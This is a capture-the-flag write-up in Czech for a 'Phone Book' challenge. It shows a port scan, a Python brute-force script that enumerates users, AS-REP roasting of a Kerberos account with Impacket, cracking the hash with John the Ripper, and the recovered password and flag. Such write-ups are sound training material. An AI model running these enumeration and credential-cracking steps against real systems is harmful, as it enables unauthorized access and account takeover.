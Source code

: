# Phone Book

## Zadání

```
Hi Expert,

the archaeologists are looking forward to get some phone numbers from the phone book running on http://78.128.246.142, don't make them wait too long.

Good Luck!

Hint: It looks like that only logged users can see the phone numbers.
Hint: Check also other services on given server 78.128.246.142.
Hint: Impacket is not always the best friend, sometimes John suite works better, especially for non-windows platforms.
```

## Řešení

### 1. Běžící služby na serveru

```
nmap -p 1-65535 78.128.246.142

Starting Nmap 7.80 ( https://nmap.org ) at 2021-10-27 20:43 CEST
Nmap scan report for 78.128.246.142
Host is up (0.0087s latency).
Not shown: 65530 closed ports
PORT     STATE    SERVICE
80/tcp   open     http
88/tcp   open     kerberos-sec
517/tcp  filtered talk
518/tcp  filtered ntalk
2376/tcp filtered docker
```

Autorizace uživatelů tak zřejmě probíhá pomocí kerberos.

### 2. Seznam uživatelů
Na stránce http://78.128.246.142/ lze kromě přihlášení i hledat aktivní uživatele systému pomocí minimálně dvou znaků.
Seznam uživatelu získáme pomocí brute force:

```python
import requests
import string

users = set()

for i in string.ascii_letters:
    for j in string.ascii_letters:
        pay = i + j
        r = requests.post('http://78.128.246.142/search', data={'query': pay})
        if 'email: ' in r.text:
            user = r.text.split('email: ')[1].split('<p>')[0]
            #print(user)
            users.add(user)

for user in users:
    print(user)
```

Výsledný seznam uživatelů - uložíme do `users.txt`: 

```
bill@superphonebook.tcc
aaron@superphonebook.tcc
harmj0y@superphonebook.tcc
tytso@superphonebook.tcc
```

### 3. ASREPRoast pomocí impacket

Někteří uživatelé mohou mít vypnutou pre-autorizaci, pak lze získat hash hesla: https://book.hacktricks.xyz/windows/active-directory-methodology/asreproast

```
python3 GetNPUsers.py SUPERPHONEBOOK.TCC/ -dc-ip 78.128.246.142 -usersfile users.txt

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$18$tytso@superphonebook.tcc@SUPERPHONEBOOK.TCC:95d27bbb3f5c6a83bbd56e783674ecd4$cd4c653440ed01c3ad41c70d137d65057b25b1ea7be81f312dc31e7d7077f86c37264741bca73d9bbd60f3b2666e3d006119d9db752dec67d6d6a79804c7af746d6591fead9b1ecd1e9bb907ba7180b521cd73a84ded47c58166738ad494223833d7ca0a4d49fee54206c8b9a13cd75f06b8df7179458040d5a6fa1d88509e7a917e41d04ca0122a9d1e09d519521068acc9cfffae97011837c229730eb45201901e16a0548a560e94f6d3b4a6eb3dc9cfcdbea707fd2dbe070be026c953bd58d694bde29360eb49c8b41a7a2510c93ce4483a6736756406d3dcd1dd34cc18c164274def2935
```

### 4. Cracknutí hash

Hash získaný pomocí impacket ovšem není ve správném formátu (viz hint k úloze). Správný formát hashe pro crackování v `john` lze najít ve zdrojovém kódu: https://github.com/openwall/john/blob/bleeding-jumbo/src/krb5_asrep_fmt_plug.c

```
$krb5asrep$18$EXAMPLE.COMlulu$< DATA >$< 24B >"
```

Upravíme hash (získanou ve 3.) dle požadovaného formátu a uložíme do souboru `hash`:

```
$krb5asrep$18$SUPERPHONEBOOK.TCCtytso$95d27bbb3f5c6a83bbd56e783674ecd4cd4c653440ed01c3ad41c70d137d65057b25b1ea7be81f312dc31e7d7077f86c37264741bca73d9bbd60f3b2666e3d006119d9db752dec67d6d6a79804c7af746d6591fead9b1ecd1e9bb907ba7180b521cd73a84ded47c58166738ad494223833d7ca0a4d49fee54206c8b9a13cd75f06b8df7179458040d5a6fa1d88509e7a917e41d04ca0122a9d1e09d519521068acc9cfffae97011837c229730eb45201901e16a0548a560e94f6d3b4a6eb3dc9cfcdbea707fd2dbe070be026c953bd58d694bde29360eb49c8b41a7a2510c93ce4483a6736756406d3dc$d1dd34cc18c164274def2935
```

Spustíme john the ripper:

```
john hash

Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
garfunkel4       (?)
1g 0:00:00:02 DONE 2/3 (2021-10-27 20:59) 0.3759g/s 18478p/s 18478c/s 18478C/s utopia4..ship4
Use the "--show" option to display all of the cracked passwords reliably
Session complete
```

Heslo `garfunkel4` je nalezeno během pár vteřin. Na tomto místě bych ale chtěl poznamenat, že toto heslo je sice ve výchozím slovníku john `/usr/share/john/password.lst`, ale není například ve známém slovníku `rockyou.txt`.
Takže například `john --wordlist=rockyou.txt --rules=best64 hash` nevede k cíli...

### 5. Získání vlajky

Na stránce se přihlásíme pomocí jména `tytso` a hesla `garfunkel4`. Vlajku lze zobrazit v tel. čísle uživatele `tytso` (stačí vyhledat `th`):

```
email: tytso@superphonebook.tcc
name: Theodore Ts'o

homepage:

phone: FLAG{MLeq-38Tt-Y1Tz-NdE9}
```

